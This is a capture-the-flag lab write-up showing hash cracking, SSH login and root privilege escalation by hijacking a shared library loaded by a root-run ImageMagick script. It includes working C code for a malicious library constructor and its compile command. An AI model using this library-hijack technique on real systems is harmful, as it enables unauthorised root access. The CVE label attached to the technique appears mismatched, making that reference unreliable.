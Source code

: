 now we can crack the shit out of it with hashcat 
```bash 
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

done now we ssh to the machine 
# PrivEscalation 
lets see wat we can do now .
```bash 
-bash-5.1$ sudo -l 
[sudo] password for developer: 
Sorry, user developer may not run sudo on titanic.
```

this user cant run `sudo` under one command but theres a directory under /opt  called  `/scripts`
that contains a `identify_images.sh` script , 

```bash
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

it uses the `identify` command of the magick package , might find an exploit for that ? 

after searching more , we found somthing under [CVE-2022-44268](https://git.rotfl.io/v/CVE-2022-44268)

explaining the exploit first , script is running under the root user so automatically any given command will be executed under root , 
`magick` packages is running in version 7.1.1-35 which theres a known exploit that can run command if we changed the a specific shared library that process it , if i m not mistaking , the magick command will look this file up everywhere until it find it and compile wat inside the constructor 

rebuild the exploit by making any `.c` file and compile it with this command 
with this c code 
```c 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("cat /root/root.txt");
    exit(0);
}
```

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 file_name.c 
```

running the `magick` command will result execute the command 
and we have the root flag 
root.txt:346142bd8030e27980045bc2f7acd97b

[[machines]]